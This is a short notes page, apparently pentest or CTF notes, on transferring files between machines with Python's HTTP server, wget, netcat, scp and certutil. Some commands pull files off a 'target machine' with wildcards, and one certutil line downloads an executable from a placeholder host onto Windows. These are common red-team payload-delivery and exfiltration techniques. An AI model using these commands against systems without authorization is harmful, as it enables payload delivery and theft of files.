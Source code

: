 ```yaml
---
{"dg-publish":true,"permalink":"/notes/transfer-files/"}
---
```


# To linux
## Python 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



## Transfer files
Using **Python**, in the folder that contain the file to send **on the source machine.** E.g. `file.txt` #flashcard
```python
python -m http.server 4545
```
<!--ID: 1728611164654-->

On the destination machine
```shell
wget http://IP_SOURCE_MACHINE:4545/file.txt
```

</div></div>

## Netcat 
<div class="transclusion internal-embed is-loaded"><a class="markdown-embed-link" href="/notes/netcat/#transfer-files" aria-label="Open link"><svg xmlns="http://www.w3.org/2000/svg" width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" class="svg-icon lucide-link"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a><div class="markdown-embed">



# Transfer files
1. On the destination machine
```shell
nc -lnvp 1234 > file.txt
```
2. On the source machine
```shell
nc -nv IP_destination 1234 < file.txt
```


</div></div>

## SSH - SCP 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- Secure Copy Protocol
- **Transferring Files From Your Host**
- MITM
Secure copy, or SCP, is just that -- a means of securely copying files. Unlike the regular cp command, this command allows you to transfer files between two computers using the SSH protocol to provide both authentication and encryption.

Working on a model of SOURCE and DESTINATION, SCP allows you to:

- Copy files & directories from your current system to a remote system
- Copy files & directories from a remote system to your current system

## Send a file
Send file1.txt from my machine to the target machine with the name file2.txt
```shell
scp file1.txt <target_username>@<target_IP>:/home/ubuntu/file2.txt
```
## Download a file
Get the documents.txt from the target machine to my machine. (To my current directory `.`)
```shell
scp <target_username>@<target_IP>:/home/ubuntu/documents.txt .
```
Change the name to notes.txt
```shell
scp <target_username>@<target_IP>:/home/ubuntu/documents.txt notes.txt
```
Examples to get all files from a folder
```shell
scp <target_username>@<target_IP>:/home/ubuntu/* .
```
```shell
scp <target_username>@<target_IP>:/home/ubuntu/* ~
```




</div></div>

# To windows
## Certutil 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- Transfer files to windows from a [[HTTP\|HTTP]] server
General use
```powershell
certutil.exe -urlcache -f http://IP:PORT//file.exe file.exe
```

</div></div>

# [[Metasploit\|Metasploit]]